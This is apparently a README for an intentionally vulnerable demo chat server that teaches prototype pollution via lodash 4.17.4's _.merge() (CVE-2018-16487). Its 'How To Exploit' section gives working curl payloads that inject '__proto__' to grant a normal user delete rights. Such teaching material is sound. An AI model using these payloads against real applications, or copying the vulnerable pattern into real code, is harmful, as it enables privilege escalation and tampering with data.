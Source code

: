 # Prototype Pollution in JavaScript

Prototype Pollution is a vulnerability affecting JavaScript. Prototype Pollution refers to the ability to inject properties into existing JavaScript language construct prototypes, such as objects. JavaScript allows all Object attributes to be altered, including their magical attributes such as `__proto__`, `constructor` and `prototype`. An attacker manipulates these attributes to overwrite, or pollute, a JavaScript application object prototype of the base object by injecting other values. Properties on the `Object.prototype` are then inherited by all the JavaScript objects through the prototype chain. When that happens, this leads to either denial of service by triggering JavaScript exceptions, or it tampers with the application source code to force the code path that the attacker injects, thereby leading to remote code execution.

If you want to learm more about the vulnerability you are welcome to explore [the interactive lesson](https://learn.snyk.io/lessons/prototype-pollution/javascript/) provided by Snyk.

## Example Application

This is example chat server vulnerable to Prototype Pollution.

- `GET /` - List all messages (available without authentication).
  ```bash
  curl --request GET --url http://localhost:3000/
  ```
- `PUT /` - Post a new message (only registered users).
  ```bash
  curl --request PUT \
    --url http://localhost:3000/ \
    --header 'content-type: application/json' \
    --data '{"auth": {"name": "user", "password": "pwd"}, "message": {"text": "Hi!"}}'
  ```
- `DELETE /` - Delete a message (only administrators).
  ```bash
  curl --request DELETE \
    --url http://localhost:3000/ \
    --header 'content-type: application/json' \
    --data '{"auth": {"name": "admin", "password": "???"}, "messageId": 2}'
  ```

An attacker target here is to delete message without administrator credentials.

## Run

- `npm install`
- `npm start`

## Vulnerability

The Prototype Pollution vulnerability (CVE-2018-16487) introduced by [lodash@4.17.4](https://www.npmjs.com/package/lodash/v/4.17.4) via `_.merge()` function. More details about the issue you can find on [Snyk website](https://snyk.io/vuln/SNYK-JS-LODASH-73638).

## How To Exploit

1. Send evil message with `__proto__`.
   ```bash
   curl --request PUT \
     --url http://localhost:3000/ \
     --header 'content-type: application/json' \
     --data '{"auth": {"name": "user", "password": "pwd"}, "message": { "text": "😈", "__proto__": {"canDelete": true}}}'
   ```
2. Delete any message you want using user's credentials.
   ```bash
   curl --request DELETE \
     --url http://localhost:3000/ \
     --header 'content-type: application/json' \
     --data '{"auth": {"name": "user", "password": "pwd"}, "messageId": 1}'
   ```
